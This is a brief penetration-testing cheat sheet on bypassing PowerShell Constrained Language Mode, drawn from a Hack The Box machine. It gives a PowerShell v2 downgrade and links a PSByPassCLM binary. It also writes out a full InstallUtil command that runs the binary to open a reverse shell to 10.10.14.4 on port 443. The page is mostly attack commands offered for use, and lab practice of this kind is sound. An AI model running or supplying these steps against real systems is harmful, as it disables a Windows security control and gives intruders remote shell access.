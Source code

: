 ```yaml
---
description: methods to bypass powershell constrained language mode
---
```


# powershell constrained language byass

Constrained Language Mode in short locks down the nice features of Powershell usually required for complex attacks to be carried out.

To view if you are in ConstrainedLangauage: 

```text
PS htb\amanda@SIZZLE v2.0.50727> $executioncontext.sessionstate.languagemode 
ConstrainedLanguage 
```

## Powershell2 downgrade

You can try and bypass by downgrading to powershell v2:    

`powershell -version 2` 

## PSByPassCLM 

Download:  [https://github.com/padovah4ck/PSByPassCLM/blob/master/PSBypassCLM/PSBypassCLM/bin/x64/Debug/PsBypassCLM.exe](https://github.com/padovah4ck/PSByPassCLM/blob/master/PSBypassCLM/PSBypassCLM/bin/x64/Debug/PsBypassCLM.exe) 

Upload that as a.exe and run: 

`PS htb\amanda@SIZZLE Documents> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U /revshell=true /rhost=10.10.14.4 /rport=443 \users\amanda\appdata\local\temp\a.exe` 

\`\`

